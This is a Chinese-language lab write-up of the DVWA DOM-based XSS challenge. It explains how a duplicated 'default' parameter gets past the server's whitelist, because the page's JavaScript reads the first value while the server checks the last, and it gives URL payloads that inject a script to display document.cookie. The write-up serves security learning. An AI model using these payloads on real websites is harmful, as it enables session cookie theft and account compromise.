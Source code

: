 # DOM Based Cross Site Scripting (XSS)

> The developer is now white listing only the allowed languages, you must find a way to run your code without it going to the server.


使用之前在中等難度的解法也 ok

```
default=English&<script>alert(document.cookie)</script>
```

### 觀察

不過這次也有找到新的方式執行 javascript

先來看一下處理選單的 javascript

```bash
<form name="XSS" method="GET">
  <select name="default">
    <script>
      if (document.location.href.indexOf("default=") >= 0) {
        var lang = document.location.href.substring(
          document.location.href.indexOf("default=") + 8
        ); // English
        document.write(
          "<option value='" + lang + "'>" + decodeURI(lang) + "</option>"
        );
        document.write("<option value='' disabled='disabled'>----</option>");
      }

      document.write("<option value='English'>English</option>");
      document.write("<option value='French'>French</option>");
      document.write("<option value='Spanish'>Spanish</option>");
      document.write("<option value='German'>German</option>");
    </script>
  </select>
  <input type="submit" value="Select" />
</form>

```
可以發現它先透過 `indexOf` 來擷取 URL 上字串 `default=` 的字串開頭位置 (45)

將它傳給 `location.href.substring` 就可以切除字串取想要的部分，也就是指定語言的部分

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/68aec075-de28-4bd1-8c0b-6f1cf09e5234/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T051803Z&X-Amz-Expires=86400&X-Amz-Signature=61e8f23b61705cb0cda96927ccd37ace93fcf4c8ecf999d3b921d3ca981f949d&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

那我們也許可以試著新增一個同樣的參數來捏照合法參數 🤔

這樣一來後端可能就會只檢查其中一個參數

在原本的 `?default=English` 之前再塞入一個 `?default=English2`

```bash
?default=English2&default=English
```

```bash
http://dvwa.localtest/vulnerabilities/xss_d/?default=English2&default=English
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/44d2d4d6-1c24-4671-b6f4-daad8bd605ab/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T051829Z&X-Amz-Expires=86400&X-Amz-Signature=db6440f5782ac8c6df2533a5dbaabc5b0c24886d4646c61f1247ffad4cc15a27&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

👉 成功，代表後端會檢查最後一個參數，而前端的 indexOf 則是指擷取碰到的第一個參數

```
?default=English<script>alert(document.cookie)</script>&default=English
```

```
http://dvwa.localtest/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(document.cookie)%3C/script%3E&default=English
```
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/3f6aa90d-f14c-4fac-9633-ce91e7b9d649/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T051859Z&X-Amz-Expires=86400&X-Amz-Signature=2841d536a7e25c38ac15613e70b4bda0831c2fffcfe7b98cd832e5e021b58302&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```
PHPSESSID=ov64qqshkod7693old2kdk59e3; security=high
```

### impossible

在 impossible 難度下測試無效 😮‍💨

```jsx
http://dvwa.localtest/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(document.cookie)%3C/script%3E&default=English
```
